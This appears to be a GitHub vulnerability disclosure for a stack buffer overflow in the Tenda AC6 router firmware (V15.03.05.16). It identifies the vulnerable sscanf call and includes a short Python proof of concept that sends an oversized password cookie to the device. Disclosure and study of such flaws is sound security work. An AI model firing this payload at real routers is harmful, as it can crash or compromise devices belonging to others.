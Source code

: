 # Tenda-Vul
Product:
Tenda AC6
Version:
V15.03.05.16
https://www.tenda.com.cn/material/show/102661
Problem Type:
Stack overflow
Description:
A vulnerability classified as critical has been found in Tenda AC6 15.03.05.16. Affected is the function R7WebsSecurityHandler of the file /goform/xxx. The manipulation of the argument password leads to stack-based buffer overflow. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. Other parameters might be affected as well.
Detial:
At the function of R7WebsSecurityHandler line 94：sscanf(v44, "%*[^=]=%[^;];*", v34).This function does not validate the user input.Copy user input directly into the stack.
POC:
import requests
URL = "http://192.168.2.3:80/goform/helloworld"
cookie = {"Cookie":"password="+"a"*0x400+".pngAAA"}
requests.get(url=URL, cookies=cookie)

![image](https://github.com/user-attachments/assets/c1a89751-2276-4f9b-be2a-1fba6a3be880)
